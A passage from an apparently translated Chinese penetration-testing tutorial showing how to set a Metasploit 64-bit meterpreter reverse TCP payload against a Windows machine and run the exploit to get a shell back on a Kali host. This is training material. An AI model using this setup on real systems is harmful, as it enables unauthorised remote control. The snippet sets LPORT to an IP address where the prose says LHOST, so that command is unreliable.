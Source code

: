 1.  我们将使用反向 TCP 有效载荷进行此利用。由于我们的 Windows 机器是 64 位的，我们将选择 64 位有效载荷进行传递。然后，将你的`LHOST`设置为你的 Kali IP 地址：

```
set payload windows/x64/meterpreter/reverse_tcp
set LPORT <<Kali IP Address>>
```

一旦所有这些都完成了，你可以发出`show options`命令来检查是否填写了所有必需的数据：

![](img/2f1d1528-907e-4aef-bf6d-1e863d609eb4.jpg)

1.  现在，简单地运行利用。你将进入一个 meterpreter shell：

![](img/68a6af0b-7820-4675-84b3-925576ae7ab9.jpg)
